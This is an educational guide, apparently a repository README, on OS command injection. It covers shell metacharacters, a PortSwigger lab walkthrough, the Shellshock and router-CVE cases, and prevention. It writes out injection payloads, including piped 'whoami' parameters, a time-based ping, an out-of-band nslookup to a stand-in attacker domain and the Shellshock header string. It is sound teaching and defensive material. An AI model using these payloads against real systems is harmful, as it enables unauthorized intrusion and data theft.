

# OS Command Injection: A Complete Guide

> A deep-dive reference on what OS command injection is, why it happens, how it's exploited, real-world incidents, a hands-on lab walkthrough, and how to prevent it.

---

## Table of Contents

1. [What Is OS Command Injection?](#1-what-is-os-command-injection)
2. [Root Cause: Why It Happens](#2-root-cause-why-it-happens)
3. [Shell Metacharacters Attackers Rely On](#3-shell-metacharacters-attackers-rely-on)
4. [Recon Commands Attackers Run First](#4-recon-commands-attackers-run-first)
5. [Walkthrough: The Classic Stock-Checker Example](#5-walkthrough-the-classic-stock-checker-example)
6. [Hands-On Lab Walkthrough: PortSwigger "Simple Case"](#6-hands-on-lab-walkthrough-portswigger-simple-case)
7. [Types of OS Command Injection](#7-types-of-os-command-injection)
8. [Real-World Case Studies](#8-real-world-case-studies)
9. [Why It's Rated Critical](#9-why-its-rated-critical)
10. [Responsible Testing Approach](#10-responsible-testing-approach)
11. [Prevention and Mitigation](#11-prevention-and-mitigation)
12. [Classification & Further Reading](#12-classification--further-reading)
13. [Responsible Use Notice](#13-responsible-use-notice)

---

## 1. What Is OS Command Injection?

OS command injection (also called **shell injection**) is a vulnerability class where an application takes input from a user and — instead of just treating it as data — accidentally lets that input get interpreted as an *instruction* by the underlying operating system's command shell (Bash, sh, PowerShell, `cmd.exe`, etc.).

In plain terms: a program was only supposed to *read* a value the user gave it (like a product ID or a hostname to ping), but because of how the program is built, the user can smuggle in extra shell syntax that gets *executed* instead of just read. The attacker isn't breaking into the server through a locked door — they're whispering extra orders to a shell that's already standing right there, listening.

Because the shell runs with whatever privileges the vulnerable application has, a successful OS command injection attack usually means the attacker can:

- Read, modify, or delete files
- Create new user accounts or backdoors
- Install malware, cryptominers, or ransomware
- Pivot into the internal network the server sits on
- Exfiltrate databases, credentials, or API keys

It's consistently ranked among the most severe web application vulnerability classes because there's rarely a "partial" version of it — if it exists, it's usually a full compromise of that host.

---

## 2. Root Cause: Why It Happens

Applications sometimes need to do something the programming language itself doesn't easily provide, so a developer takes a shortcut: build a command as a plain text string and hand it off to a function that spawns a system shell to run it (e.g. `system()` in PHP/C, `exec()`/`os.system()` in Python, `Runtime.exec()` in Java when misused, backticks or `` `cmd` `` in Perl/Ruby).

The danger is that **shells don't distinguish between "code" and "data."** A shell simply scans the string it's given for special characters — semicolons, pipes, ampersands, backticks — and treats anything after them as a fresh command. If part of that string came from a user (a form field, a URL parameter, an HTTP header, an uploaded filename), the user effectively gets to write shell script that runs on the server.

The vulnerability isn't really "the shell is buggy" — the shell is doing exactly what shells are designed to do. The bug is that **untrusted input was concatenated directly into a command string that a shell then parsed**, instead of being kept strictly as inert data.

---

## 3. Shell Metacharacters Attackers Rely On

These are the building blocks of almost every OS command injection payload. Each character tells the shell "stop what you're doing and start something new."

### Linux / macOS (Bash, sh, zsh)

| Operator | Name | Behavior |
|---|---|---|
| `;` | Command separator | Runs the next command regardless of whether the first succeeded |
| `\|` | Pipe | Feeds the output of the first command into the second |
| `&` | Background operator | Runs the command in the background; also acts as a separator |
| `&&` | AND | Runs the next command **only if** the first succeeded |
| `\|\|` | OR | Runs the next command **only if** the first failed |
| `` ` `` `cmd` ` | Command substitution (legacy) | Executes `cmd` and substitutes its output inline |
| `$(cmd)` | Command substitution (modern) | Same as above, easier to nest |
| `\n` | Newline | Many shells treat a newline exactly like `;` |
| `>` / `>>` | Redirection | Writes command output to a file, overwriting or appending |
| `#` | Comment | Everything after it on the line is ignored by the shell |

### Windows (`cmd.exe` / PowerShell)

| Operator | Name | Behavior |
|---|---|---|
| `&` | Command separator | Runs both commands, one after the other |
| `&&` | AND | Runs the second command only if the first succeeded |
| `\|` | Pipe | Feeds output of one command into the next |
| `\|\|` | OR | Runs the second command only if the first failed |
| `%VAR%` | Variable expansion | Can be abused to smuggle payloads through environment variables |

Attackers typically try several of these back-to-back (`;`, then `|`, then `` ` ``, then `$( )`, then a newline) because different application languages and platforms swallow different characters, or strip some but not others.

---

## 4. Recon Commands Attackers Run First

Once an attacker has confirmed they can inject commands, the very first thing they do isn't launch ransomware — it's *orient themselves*. These low-noise, "harmless-looking" commands answer: *what am I inside of, and what can I reach from here?*

| Goal | Linux | Windows | Why it matters to an attacker |
|---|---|---|---|
| Who am I running as? | `whoami` | `whoami` | Root/Administrator vs. a low-privilege service account changes the whole attack plan |
| What OS/version? | `uname -a` | `ver` | Determines which local privilege-escalation exploits might apply |
| Network setup | `ifconfig` / `ip a` | `ipconfig /all` | Reveals internal IP ranges — a map of what else might be reachable |
| Active connections | `netstat -an` | `netstat -an` | Shows what other services this host is already talking to |
| Running processes | `ps -ef` | `tasklist` | Reveals security tools (EDR/AV), databases, and other software running on the box |

This is exactly the same "recon before action" logic any intruder follows in the physical world — check your surroundings before you decide what to do next.

---

## 5. Walkthrough: The Classic Stock-Checker Example

Consider a shopping site that checks whether an item is in stock:

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

Behind the scenes, instead of querying a database directly, a legacy script is shelled out to:

```bash
stockreport.pl 381 29
```

That's fine — *as long as* `productID` and `storeID` are always clean numbers. But if the application builds this command by simply gluing the raw URL parameters onto a string, an attacker can replace `productID=381` with:

```
& echo aiwefwlguh &
```

The resulting string the shell actually receives becomes:

```bash
stockreport.pl & echo aiwefwlguh & 29
```

Because `&` is a command separator on Linux, the shell reads this as **three independent commands**, run one after another:

1. `stockreport.pl` — runs with no arguments, since the malicious input replaced them → fails with a "missing argument" error
2. `echo aiwefwlguh` — the injected command → prints the string back out
3. `29` — the leftover `storeID` value from the original command, now standing alone → the shell tries to run a program literally named `29`, which doesn't exist → "command not found"

The output the user sees confirms all three ran:

```
Error - productID was not provided
aiwefwlguh
29: command not found
```

That middle line — a string the attacker chose, echoed back with no relation to any legitimate stock data — is the smoking gun. It proves arbitrary commands are executing on the server, not just being reflected as text. From here, the attacker swaps `echo aiwefwlguh` for `whoami`, then `cat /etc/passwd`, then something far more damaging.

**Why the trailing `&` matters:** placing a separator *after* the injected command (not just before it) cleanly detaches it from whatever text was supposed to follow in the original command. Without it, the injected command and the leftover `29` might get mashed together into something that errors out before the payload even runs.

---

## 6. Hands-On Lab Walkthrough: PortSwigger "Simple Case"

Everything above is the theory. This section walks through solving the real, free PortSwigger Web Security Academy lab — **"OS command injection, simple case"** — including the exact (and, at first glance, confusing) output it returns, and precisely why that output differs depending on *which* parameter you inject into.

**Lab goal:** the product stock checker on a vulnerable shop application is fed straight into a shell command on the backend. Find the injection point and execute `whoami` to prove arbitrary command execution.

### 6.1 Step-by-step

1. **Access the lab.** This spins up your own isolated instance of the vulnerable shop application.
2. **Route your browser through Burp Suite.** Use the lab's built-in browser (already configured to proxy through Burp).
3. **Open a product.** From the shop's homepage, click into any single item's product page.
4. **Find "Check stock."** Scroll down — there's a small form with a store/location selector and a **Check stock** button.
5. **Turn Intercept on.** In Burp's *Proxy* tab, make sure *Intercept is on*.
6. **Trigger the request.** Click **Check stock**. Burp pauses the outgoing `POST` request before it reaches the server.
7. **Read the raw request body.** At the bottom of the intercepted request:
   ```
   productId=1&storeId=1
   ```
   These two plain numbers are exactly what the server glues, unmodified, into a shell command.
8. **Inject into one parameter.** Add a pipe and `whoami`, e.g.:
   ```
   productId=1|whoami&storeId=1
   ```
9. **Forward it.** Click *Forward* in Burp so the tampered request reaches the server.
10. **Read the response.** Because this application naively returns whatever the shell printed, the HTTP response body now contains real command output instead of stock data.
11. **Try the other parameter too.** Repeat the capture, and this time inject into `storeId` instead:
    ```
    productId=1&storeId=1|whoami
    ```
12. **Compare the two responses** — this is the part worth understanding, not just the part worth solving.

### 6.2 What actually comes back

**Injecting into `productId`** (`productId=1|whoami`, `storeId=1`):

```
/home/peter-6UIA12/stockreport.sh: line 5: $2: unbound variable
whoami: extra operand '1'
Try 'whoami --help' for more information.
```


**Injecting into `storeId`** (`productId=1`, `storeId=1|whoami`):

```
peter-6UIA12
```


Same vulnerability, same payload style, completely different quality of result — one is a pile of shell errors, the other is exactly the answer the lab wants.

### 6.3 Why the two outputs are so different

The error message itself hands you the missing piece: `/home/peter-6UIA12/stockreport.sh`. The backend isn't calling `stockreport.pl` directly — it's calling a wrapper shell script, built the exact same unsafe way as the conceptual example in Section 5:

```
/home/peter-6UIA12/stockreport.sh <productId> <storeId>
```

Both parameters get concatenated, unescaped, into that command line before any shell parses it — the shell doesn't know or care which characters came from the developer's template and which came from you. It just reads the whole line and looks for metacharacters.

**Case A — injecting into `productId` (the *first*, non-final, argument):**

The full string the shell receives is:

```
/home/peter-6UIA12/stockreport.sh 1|whoami 1
```

The shell hits the `|` and splits this into **two independent commands joined by a pipe**:

```
/home/peter-6UIA12/stockreport.sh 1     |     whoami 1
```

- **Left side:** `stockreport.sh` is invoked with only *one* argument (`1`). The script's own code (line 5) expects a *second* argument too — it's written assuming it will always receive `$1` (productId) and `$2` (storeId). Because your injection point fell in the middle of the command line, the literal `1` that was supposed to be `storeId` got shifted onto the other side of the pipe instead of reaching the script. `$2` was never set for this run. The script was evidently written with `set -u` (a shell "safety" option that turns referencing *any* undefined variable into a hard error instead of silently treating it as blank) — so it crashes immediately with `line 5: $2: unbound variable`.
- **Right side:** `whoami 1` — the leftover `storeId` value (`1`) doesn't just vanish; it's still sitting in the string, and now it lands as an argument to `whoami` instead of the script. `whoami` takes *zero* positional arguments — give it one, and GNU coreutils responds exactly as observed: `whoami: extra operand '1'`.

Instead of one clean injected command, you get **two broken commands**: the original script choking on a missing argument, and your injected `whoami` choking on an argument it never asked for.

**Case B — injecting into `storeId` (the *last* argument):**

The full string the shell receives is:

```
/home/peter-6UIA12/stockreport.sh 1 1|whoami
```

Split at the pipe:

```
/home/peter-6UIA12/stockreport.sh 1 1     |     whoami
```

- **Left side:** the script now gets *both* of its expected arguments in full — `$1=1` and `$2=1` — exactly as intended, because nothing followed `storeId` in the command template to get separated from it. No missing variable, no crash.
- **Right side:** `whoami` — with *nothing at all* following it, since your injection sat at the very tail end of the whole line. It runs with zero arguments, exactly as designed, and prints exactly one thing: the current user.

### 6.4 The general lesson: where you inject matters as much as what you inject

This is the real takeaway, and it generalizes far beyond this one lab: **whatever text originally came *after* your injection point in the command template doesn't disappear — it gets tacked onto the end of your injected command as a stray, usually unwanted, argument.** Injecting into the *last* parameter in a command leaves nothing trailing behind, so your payload runs exactly as written. Injecting into an *earlier* parameter means everything that used to follow it becomes noise glued onto your payload instead.

In real engagements you don't always get to pick which field is injectable. Two common fixes when you're stuck injecting into a non-final parameter:

- **Comment out the trailing text.** In Bash, `#` starts a comment that runs to the end of the line, so a payload like `1|whoami #` would turn the rest of the line — including any leftover parameter values — into a comment the shell ignores.
- **Terminate as a separate statement instead of piping.** Using `;` runs your command as a fully independent statement rather than connecting stdout to stdin, which avoids output-mixing between the two commands (though it doesn't by itself solve the trailing-argument problem — the `#` trick above handles that part).

### 6.5 Why a pipe (`|`), specifically, works here

The lab's payload deliberately uses a pipe rather than `;`, `&`, or `&&` — and that choice matters:

- **`&&` would likely have failed** for the `productId` injection. `&&` only runs the second command if the first one *exits successfully*. Since the broken `stockreport.sh 1` call crashes on the unbound-variable error (a non-zero exit), `whoami` would never run at all.
- **`|` doesn't check the exit status of the left-hand command.** A pipeline runs both sides as concurrent processes regardless of whether the first one succeeds or fails — guaranteeing your injected `whoami` executes either way.
- As a bonus, testers reach for `|` often in real assessments because some input filters specifically block the "obvious" separators (`;`, `&&`, newlines) while forgetting about the pipe character.

### 6.6 One more thing the "broken" output already told you

Look again at the very first response — the messy one, from the `productId` injection, *before* `whoami` ever ran cleanly:

```
/home/peter-6UIA12/stockreport.sh: line 5: $2: unbound variable
```

The username is already sitting right there in the file path: `peter-6UIA12`. Verbose Linux error messages routinely leak internal file paths, usernames, and script structure exactly like this — meaning even a "failed," messy injection attempt can still hand useful reconnaissance, well before a clean, fully working payload is found.

---

## 7. Types of OS Command Injection

Not every vulnerable application politely echoes command output back to the attacker (the lab above is a **result-based / in-band** example). Testing and exploitation techniques change depending on how "chatty" the app is.

### 7.1 In-band / result-based
The command's output is returned directly in the HTTP response, like the `whoami` and `echo` examples above. Easiest to find and exploit — the attacker gets immediate feedback.

### 7.2 Blind, time-based
No output is shown, but the attacker can still prove code execution by making the server *pause* for a measurable amount of time:

```bash
& ping -c 15 127.0.0.1 &
```

If the response takes roughly 15 seconds longer than normal, that delay is the proof — the shell genuinely ran the injected command, even though nothing was printed.

### 7.3 Blind, out-of-band (OOB)
Sometimes even timing isn't reliable (load balancers, async processing, etc.). Instead, the attacker makes the vulnerable server reach out to infrastructure *they* control — commonly a DNS lookup or an HTTP request to an attacker-owned domain:

```bash
& nslookup attacker-controlled-domain.com &
```

If that domain's DNS logs show a query arriving from the target's IP address moments later, that's independent, out-of-band confirmation that the injected command executed — useful when the vulnerable channel gives the attacker nothing back at all.

---

## 8. Real-World Case Studies

The toy `stockreport.pl` example and the lab above are teaching tools, but the exact same pattern — *build a shell command by gluing together trusted code and untrusted input* — has caused some of the most significant security incidents in the industry's history.

### 8.1 Shellshock — CVE-2014-6271 (2014)

In September 2014, researcher Stéphane Chazelas disclosed a flaw in **GNU Bash** itself — the default shell on most Linux distributions and, at the time, macOS. Bash has a feature that lets exported environment variables carry function definitions. The bug: after parsing the end of a function definition inside a variable, vulnerable Bash versions kept executing, running whatever trailing text came after it as a live command.

That would be a curiosity if environment variables were always trustworthy — but they very often aren't. Web servers running CGI scripts (via Apache's `mod_cgi`) pass HTTP headers like `User-Agent` straight into environment variables for the script to read. That meant an attacker could send an HTTP request like:

```
User-Agent: () { :; }; echo; echo "vulnerable"
```

and if the target server was exposed and unpatched, Bash would execute whatever followed the crafted function definition — with no authentication required over HTTP. The same flaw was reachable through OpenSSH's `ForceCommand` feature and through certain DHCP clients, giving it an enormous attack surface across servers, network appliances, and embedded devices.

NIST rated it a maximum-severity 10 out of 10. Mass internet-wide scanning and the first worm payloads began within hours of disclosure. The initial patch turned out to be incomplete, spawning a cluster of follow-up CVEs (CVE-2014-7169, CVE-2014-6277, CVE-2014-6278, CVE-2014-7186, CVE-2014-7187) as researchers kept finding new angles on the same underlying parsing flaw. Over a decade later, unpatched and end-of-life devices are still probed for Shellshock as routine internet background noise.

**The lesson:** OS command injection doesn't need a sloppy in-house script to be catastrophic — it can live inside foundational software that millions of other systems silently depend on.

### 8.2 The Router "Ping Diagnostic" Epidemic (recurring pattern, 2013–present)

If you look at command-injection CVEs across consumer and industrial routers, one pattern shows up again and again: a web admin panel offers a "network diagnostics" page — ping, traceroute, or `nslookup` — where you type in an IP address or hostname and the device tells you if it's reachable. Under the hood, this is almost always implemented exactly like the `stockreport.pl` / `stockreport.sh` examples: the device takes your input and shells out to its own `ping` or `nslookup` binary.

Documented, real CVEs following this exact template include:

- **CVE-2017-6884** — Zyxel EMG2926 routers: the `ping_ip` parameter on the diagnostic `nslookup` page could be used to run arbitrary commands, including spawning a reverse shell.
- **CVE-2017-16957** — TP-Link routers: command injection in `diagnostic.lua`, leading to root shell access.
- **CVE-2020-8958** — Guangzhou/GPON ONU routers: the "Dest IP Address" field of the web ping tool inserted shell metacharacters straight into a system call.
- **CVE-2023-33381** — MitraStar GPT-2741GNAC router: authenticated ping functionality allowed arbitrary OS command execution.
- **CVE-2024-12856** — Four-Faith industrial routers: a system-time-adjustment parameter on `apply.cgi` was, in practice, another unsanitized shell call, and was actively scanned and exploited by botnets in the wild.

Security researchers tracking botnet scanning traffic have observed automated tools probing thousands of internet-facing devices specifically for these diagnostic endpoints, because they're such a reliable, repeatable path to full root access on cheap, rarely-patched hardware.

**The lesson:** this isn't a one-off mistake — it's a design pattern that keeps getting reinvented by different vendors, on different devices, years apart, because "just shell out to the system's `ping` command" feels like the fastest way to implement a feature. Every device that took that shortcut without sanitizing input ended up with the same vulnerability.

---

## 9. Why It's Rated Critical

- **No authentication bypass needed for max impact** — once found, exploitation is often trivial (a single crafted parameter, as in the lab above).
- **Runs with the application's privileges** — on misconfigured systems, that's often root/SYSTEM.
- **Enables lateral movement** — a compromised web server becomes a foothold to attack databases, internal APIs, and other machines on the same network.
- **Hard to contain after the fact** — once arbitrary commands run, an attacker can install persistence mechanisms (cron jobs, scheduled tasks, SSH keys, new accounts) that survive a simple patch.
- **Scales automatically** — as the router examples show, one vulnerable code pattern shipped in firmware can expose tens of thousands of devices simultaneously, ready-made for botnets.

---

## 10. Responsible Testing Approach

If you are testing an application **you own or are explicitly authorized to test** (e.g. a bug bounty program, a training lab like the one above, or a client engagement with written permission), the general workflow security testers follow is:

1. Identify parameters that plausibly feed into a system call (filenames, IPs, hostnames, "export as," "convert," "check stock," "ping this host," anything historically implemented via a shell-out).
2. Try a low-impact, self-identifying payload first (an `echo` or `whoami` with a predictable output) rather than anything destructive.
3. If there's no visible output, move to time-based confirmation (a measurable `sleep`/`ping -c N` delay).
4. If timing is unreliable, use an out-of-band channel you control (DNS/HTTP callback) to confirm execution independently.
5. If your first injection point gives messy or broken output (as in Case A above), don't assume the vulnerability isn't there — try the other parameters, or the last parameter in the command, before concluding it's not exploitable.
6. Document exactly what was proven, then stop — proving code execution is enough to report; there's no need to escalate into actual data destruction or persistence to make the point.

Testing systems without authorization is illegal in most jurisdictions, regardless of intent.

---

## 11. Prevention and Mitigation

This is the part that actually matters for developers — here's how to make sure your own application never ends up in Section 8 of someone else's write-up.

### 11.1 Avoid shelling out entirely (best option)
Wherever possible, use a language's built-in library function instead of invoking the OS shell. Need to ping a host? Use a networking library. Need to resize an image? Use an image-processing library, not a call out to ImageMagick's CLI. If there's no shell involved, there's no shell injection.

### 11.2 If you must run an external command, avoid the shell interpreter
Most languages offer a way to execute a program directly with an **array of arguments**, bypassing shell parsing entirely — no metacharacters get a chance to mean anything:

```python
# Vulnerable: builds a string, shell interprets it
os.system(f"stockreport.sh {product_id} {store_id}")

# Safer: arguments passed as a list, shell=False — no shell parsing at all
subprocess.run(["stockreport.sh", product_id, store_id], shell=False)
```

The same principle applies broadly: Java's `ProcessBuilder` with a `List<String>` instead of a single command string, PHP's `escapeshellarg()` as a fallback (see below) rather than raw concatenation, Node's `execFile()` instead of `exec()`, and so on. Notice this would also have avoided the entire `$2: unbound variable` failure mode from Section 6 — each argument arrives at the script intact, with no shell in the middle to split on `|`.

### 11.3 Strict allow-list input validation
If a field is only ever supposed to be a number, a product SKU, or an IP address, **validate it against that exact shape** before it goes anywhere near a command — reject anything that doesn't match, rather than trying to strip out "bad" characters after the fact (blocklists are easy to bypass with encoding tricks, alternate operators, or characters the developer didn't think of).

### 11.4 Escape as a last resort, not a primary defense
If a shell call truly can't be avoided and arguments can't be passed as an array, use your language's proper shell-escaping function (`escapeshellarg()` in PHP, `shlex.quote()` in Python) — never hand-rolled string replacement. Even then, treat this as a fallback, not a first line of defense.

### 11.5 Principle of least privilege
Run the application/service account with the minimum OS permissions it actually needs. If a compromised process can't read `/etc/shadow`, write to system directories, or reach other internal hosts, the blast radius of a successful injection shrinks dramatically. Containerization and sandboxing (namespaces, seccomp profiles, read-only filesystems) add another layer here.

### 11.6 Keep the underlying shell and OS patched
Shellshock is the defining example: the vulnerability wasn't in any individual company's code, it was in Bash itself. Staying current on OS and interpreter patches is a real, load-bearing defense — not just hygiene.

### 11.7 Fail closed, not verbose
The lab's own error messages (`line 5: $2: unbound variable`, complete with a real file path and username) are a reminder that verbose shell errors returned to end users are themselves a leak. Catch errors server-side and return a generic message to the client; log the details internally instead.

### 11.8 Defense in depth
A Web Application Firewall (WAF) can catch known injection patterns as a secondary safety net, and centralized logging/alerting on unusual outbound connections or process spawns can catch what got through — but neither should be relied on as the *actual* fix.

---

## 12. Classification & Further Reading

- **CWE-78** — Improper Neutralization of Special Elements used in an OS Command ("OS Command Injection")
- OWASP Top 10 — consistently falls under the **Injection** category
- PortSwigger Web Security Academy — free, hands-on labs specifically covering this vulnerability class, including the "OS command injection, simple case" lab walked through above
- NIST National Vulnerability Database — for looking up any CVE referenced above in full detail

---

## 13. Responsible Use Notice

This document is written for **defensive and educational purposes** — to help developers recognize and eliminate this vulnerability class in their own code, and to help students understand a foundational topic in application security. Only test systems you own or have explicit, written authorization to test — such as dedicated training labs. Unauthorized access to computer systems is illegal in most countries under laws such as the U.S. Computer Fraud and Abuse Act, the UK Computer Misuse Act, and equivalent legislation elsewhere.

---

*Feel free to fork, adapt, and extend this guide for your own notes, training material, or team wiki. If you're pairing this file with your own Burp Suite screenshots, drop them in an `Images/` folder next to this file so the references in Section 6 resolve correctly.*
